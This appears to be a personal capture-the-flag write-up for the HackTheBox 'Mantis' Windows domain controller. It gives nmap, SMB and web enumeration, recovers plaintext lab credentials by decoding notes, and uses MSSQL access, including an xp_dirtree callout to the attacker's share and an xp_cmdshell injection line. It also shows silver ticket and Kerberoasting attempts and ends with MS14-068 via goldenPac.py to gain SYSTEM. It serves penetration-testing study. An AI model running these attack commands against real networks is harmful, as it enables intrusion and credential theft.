

# Summary


## about target

tip:  10.129.168.174

hostname:  Mantis

Difficulty:  Hard


## about attack

+ web dir scan, found the creds tips; bit to ascii, password crack.
+ enum mssql, got db connection; browser data(dbeaver) got james creds.
+ mssql connect with impacket, mssql.py
+ Ms14-068 exploit,  got system.
+ xxd reverse the password to clear text.


**attack note**

```bash
Mantis / 10.129.168.174

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-12-18 14:08:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
|_Not valid after:  2052-12-18T14:05:24
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49166/tcp open  msrpc        Microsoft Windows RPC
49170/tcp open  msrpc        Microsoft Windows RPC
49173/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
|_Not valid after:  2052-12-18T14:05:24

---- Interesting
- from enum4linux
Domain Name: HTB
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657

- from 1337, sec_notes/
admin:@dm!n_P@ssW0rd!
sa:m$$ql_S@_P@ssW0rd!
james:J@m3s_P@ssW0rd!

- smb 
host unreachable, weird. 

- mssql
--got mantis ntlmv2 hash
--cracked to ntlm, try silver ticket, failed.
--from sql query;
Server 'MANTIS\SQLEXPRESS


---- Enum 
-- dns
dig any @$tip htb.local
dig axfr @$tip htb.local

-- smb
- Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
- smbshare, nothing. 
crackmapexec smb $tip -u '' --pass-pol
smbclient -L $tip 
smbclient -L $tip  -U ''
smbclient -L $tip  -U null
smbmap -H $tip
smbmap -H $tip -u null
smbmap -H $tip -u ''

-- web
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:8080 -o gobuster-8080.log
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:1337 -o gobuster-1337.log

-- mssql
## extract data
## https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-error-based
sqsh -S $tip -U admin -P 'm$$ql_S@_P@ssW0rd!' -D 'orcharddb'
exec master.dbo.xp_dirtree '\\10.10.14.90\share\test'
go

sp_configure 'show advanced options', '1'
RECONFIGURE

'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'whoami' —
---- Foothold
-- try silver ticket
ticketer.py -nthash 36FB932753A7B5DF1B9D66D7CD57EB0E -domain-sid S-1-5-21-4220043660-4019079961-2895681657 -domain htb.local -spn mssql/htb fakehello 

psexec.py htb.local/fakehello@htb.local -k -no-pass

-- ad
bloodhound-python -c All -u james  -p 'J@m3s_P@ssW0rd!' -d htb.local -dc htb.local -ns $tip

GetUserSPNs.py htb.local/james:'J@m3s_P@ssW0rd!' -dc-ip $tip -request

---- System

goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis

```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-12-18 14:08:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
|_Not valid after:  2052-12-18T14:05:24
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49166/tcp open  msrpc        Microsoft Windows RPC
49170/tcp open  msrpc        Microsoft Windows RPC
49173/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
|_Not valid after:  2052-12-18T14:05:24
```


## dns

```bash
dig any @$tip htb.local
dig axfr @$tip htb.local
```

nothing found.


## smb

```bash
crackmapexec smb $tip -u '' --pass-pol
smbclient -L $tip 
smbclient -L $tip  -U ''
smbclient -L $tip  -U null
smbmap -H $tip
smbmap -H $tip -u null
smbmap -H $tip -u ''
```

- Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
- smbshare, nothing. 


## web 1337/8080

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:8080 -o gobuster-8080.log
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:1337 -o gobuster-1337.log
```

1337, found path secure_notes


check the path, found files dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt


binary to ascii, got a password of admin. 

admin:@dm!n_P@ssW0rd!

crack the hash, found password of sa.

sa:m$$ql_S@_P@ssW0rd!

```bash
echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d 
echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d  | wc -c 

echo -n 6d2424716c5f53405f504073735730726421 | xxd -ps -r
```


online crack site, https://hashes.com/en/decrypt/hash




port 8080, /admin from dir scan.

Login with admin creds.

version 1.10.3, no exploit found.


check the creds via crackmapexec, not work.

```bash
crackmapexec winrm $tip -u user.list -p pwd.list
crackmapexec smb $tip -u user.list -p pwd.list --shares
crackmapexec mssql -d htb.local -u user.list -p pwd.list -x 'whoami
```


## mssql

Connect to mssql, check password.

admin:m$$ql_S@_P@ssW0rd!

```bash
sqsh -S $tip -U admin -P 'm$$ql_S@_P@ssW0rd!' -D 'orcharddb'
```

no RCE found.

check data, data from db

```bash
SELECT table_catalog, table_name FROM information_schema.columns

select * from orcharddb..blog_Orchard_Users_UserPartRecord;
```

got password of james.


connected with dbeaver


check password, correct. no winrm.

```bash
crackmapexec winrm $tip -u james -p 'J@m3s_P@ssW0rd!' -x "whoami"
crackmapexec smb $tip -u james -p 'J@m3s_P@ssW0rd!'  --shares
```


## ad enum

```bash
bloodhound-python -c All -u james  -p 'J@m3s_P@ssW0rd!' -d htb.local -dc htb.local -ns $tip

GetUserSPNs.py htb.local/james:'J@m3s_P@ssW0rd!' -dc-ip $tip -request
```

nothing.


# Privesc

after watched the walkthroug, use Ms14-068

change the hosts first.

```bash
10.129.126.62 htb.local htb mantis mantis.htb.local
```

got system.

```bash
goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis
```


## proof

```bash


```


